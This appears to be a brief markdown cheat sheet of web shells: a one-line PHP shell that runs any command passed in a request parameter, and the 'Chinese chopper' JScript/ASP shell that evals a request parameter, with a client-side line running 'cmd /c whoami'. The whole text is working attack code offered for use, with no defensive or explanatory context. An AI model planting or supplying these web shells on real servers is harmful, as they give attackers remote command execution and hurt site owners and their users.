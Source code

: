 # Web Shells




## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```




## ASP



### JScript

Chinese chopper:

```csharp
// Server-side
<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["cmd"],"unsafe");}</script>
// Client-side
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())
```
